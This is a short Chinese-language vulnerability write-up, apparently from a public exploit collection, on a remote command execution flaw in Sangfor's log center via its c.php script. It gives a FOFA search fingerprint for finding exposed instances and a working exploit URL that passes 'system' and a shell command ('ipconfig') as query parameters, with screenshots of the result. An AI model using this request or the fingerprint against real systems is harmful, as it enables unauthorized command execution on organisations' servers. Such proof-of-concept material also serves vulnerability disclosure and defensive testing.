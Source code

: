 # 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

<a-checkbox checked>深信服 日志中心</a-checkbox></br>

## FOFA

<a-checkbox checked>body="isHighPerformance : !!SFIsHighPerformance,"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131203508.png)



访问漏洞Url

```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131203577.png)